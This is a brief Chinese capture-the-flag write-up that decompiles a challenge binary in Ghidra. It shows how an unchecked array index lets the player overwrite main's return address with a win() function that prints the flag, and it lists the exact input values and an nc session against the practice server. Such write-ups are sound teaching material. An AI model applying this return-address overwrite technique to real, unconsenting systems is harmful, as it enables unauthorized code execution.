 ghidra查看代码
```c
undefined8 main(void)

{
  int iVar1;
  long lVar2;
  long *plVar3;
  long in_FS_OFFSET;
  byte bVar4;
  long local_80;
  long local_78;
  long local_70;
  long local_68 [11];
  long local_10;
  
  bVar4 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  while( true ) {
    local_80 = 0;
    local_78 = 0;
    local_70 = 0;
    plVar3 = local_68;
    for (lVar2 = 10; lVar2 != 0; lVar2 = lVar2 + -1) {
      *plVar3 = 0;
      plVar3 = plVar3 + (ulong)bVar4 * -2 + 1;
    }
    printf("Input: ");
    iVar1 = __isoc99_scanf("%ld %ld %ld",&local_80,&local_78,&local_70);
    if (iVar1 != 3) break;
    local_68[local_70] = local_78 + local_80;         // A
    printf("Result: %ld",local_68[local_70]);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

```c
void win(void)

{
  system("cat /flag");
  return;
}
```

通过A行的任意地址写功能将返回main的返回地址改为win函数地址
local_80 = win函数地址 = 4196386
local_78 = 0
local_70 = (0x68(local_68跟返回地址偏移(ghidra中已计算rbp))) / 8 = 13

```shell
$ nc svc.pwnable.xyz  30002
Input: 4196386 0 13
Result: 4196386Input: e

```
